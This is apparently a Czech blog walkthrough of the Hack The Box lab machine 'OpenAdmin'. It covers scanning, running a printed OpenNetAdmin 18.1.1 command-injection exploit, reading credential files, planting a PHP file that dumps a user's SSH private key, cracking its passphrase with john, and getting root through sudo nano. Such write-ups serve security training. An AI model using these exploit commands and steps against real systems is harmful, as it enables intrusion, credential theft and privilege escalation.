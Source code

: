 ```yaml
---
layout: post
author: Tomáš Matějíček
title: "OpenAdmin"
date: 2020-01-04
tags: exploit sudo
---
```


[OpenAdmin](https://www.hackthebox.eu/home/machines/profile/222) je jednoduchý box. Počáteční přístup získáš využitím OpenNetAdmin RCE a na úroveň uživatele se posuneš díky nalezenému heslu. Pak pomocí SSH přesměrování portů získáš přístup k internímu webu a tím i k zašifrovanému SSH privátnímu klíči. Po prolomení hesla získáš přístup k druhému uživateli. Zvýšení oprávnění na správce provedeš pomocí kombinace sudo a nano.

### Vyhledání otevřených portů
`IP=10.10.10.171;ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d "/" -f 1 | tr "\n"​ "," | sed s/,$//);nmap -p $ports -A -sC -sV -v $IP`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Úprava /etc/hosts
10.10.10.171	openadmin.htb

### Vyhledání složek na serveru
`dirb http://openadmin.htb`
```
=> DIRECTORY: http://openadmin.htb/artwork/
=> DIRECTORY: http://openadmin.htb/music/
```

### Vyhlední odkazů
`wget -r -nd --delete-after -nv --ignore-tags=img,link,script http://openadmin.htb/music/`
```
URL:http://openadmin.htb/ona/
```
### Identifikace webové aplikace
`whatweb http://openadmin.htb/ona/`
```
http://openadmin.htb/ona/ [200 OK] Apache[2.4.29], Cookies[ONA_SESSION_ID,ona_context_name], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Script[javascript,text/javascript], Title[OpenNetAdmin :: 0wn Your Network]
```

### Vyhledání exploitu
`searchsploit -w opennetadmin`

```
---------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                                                              |  URL
---------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                                                               | https://www.exploit-db.com/exploits/26682
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                                | https://www.exploit-db.com/exploits/47772
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                                 | https://www.exploit-db.com/exploits/47691
---------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
```

### Zobrazení a stažení exploitu
`curl https://www.exploit-db.com/raw/47691`
```
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

`curl https://www.exploit-db.com/raw/47691 -o opennetadmin-exploit.sh`

### Spuštění exploitu
```
dos2unix opennetadmin-exploit.sh
chmod +x opennetadmin-exploit.sh
./opennetadmin-exploit.sh "http://openadmin.htb/ona/"
```

### Zjištění uživatelů na cílovém serveru
`cat /etc/passwd`
```
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

### Zjištění přístupovéch údajů k databázi
`cat ./local/config/database_settings.inc.php`
```
$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => '__CENSORED__',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
### Přihlášení k ssh pomocí nalezeného hesla
`ssh jimmy@openadmin.htb`

### Vyhledání zapisovatelných složek
`find / -type d -writable 2> /dev/null`
```
/var/www/internal
```
### Zjištění konfigurace web-site
`cat /etc/apache2/sites-enabled/internal.conf`
```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
### Přihlášení k ssh s přesměrováním portů
`ssh -L 52846:127.0.0.1:52846 jimmy@openadmin.htb`

### Vytvoření PHP souboru který zobrazí privátní klíč uživatele joanna
`echo "<?php echo shell_exec('cat /home/joanna/.ssh/id_rsa');" > /var/www/internal/key.php`

### Zobrazení PHP souboru na interní webu a získání privátního klíče
<http://127.0.0.1:52846/key.php>
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
.....
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Slovníkový útok na heslo privátního klíče
```
/usr/share/john/ssh2john.py OpenAdmin_joanna_id_rsa > OpenAdmin_joanna_id_rsa.john
/usr/sbin/john OpenAdmin_joanna_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```
`__CENSORED__      (OpenAdmin_joanna_id_rsa)`

### Přihlášení k SSH pomocí privátního klíče
`ssh -i OpenAdmin_joanna_id_rsa joanna@openadmin.htb`

### Zobrazení obsahu souboru user.txt
`cat user.txt`
`__CENSORED__`

### Zobrazení nastavení sudo
`sudo -l`
```
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

### Spuštění nano, zvýšení oprávnění a vypsání obsahu souboru root.txt
`sudo /bin/nano /opt/priv`
`Ctrl+R`
`Ctrl+X`
`cat /root/root.txt`
__CENSORED__
